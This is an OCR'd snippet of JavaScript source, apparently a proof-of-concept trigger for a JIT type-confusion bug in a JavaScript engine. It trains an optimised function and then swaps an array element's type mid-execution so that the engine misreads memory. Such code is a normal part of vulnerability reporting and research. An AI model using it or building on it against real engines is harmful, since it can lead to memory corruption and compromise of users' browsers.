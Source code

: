 
function main() {
    let arr = [1.1, 1.1, 1.1, 1.1, 1.1];
    function opt(f) {
        arr[0] = 1.1;
        arr[1] = 2.3023e-320 + parseInt('a'.replace('a', f));
        arr[2] = 1.1;
        arr[3] = 1.1;
    }

    let r0 = () => '0';
    for (var i = 0; i < 0x1000; i++)
        opt(r0);

    opt(() => {
        arr[0] = {};
        return '0';
    });

    print(arr[1]);
}

main();

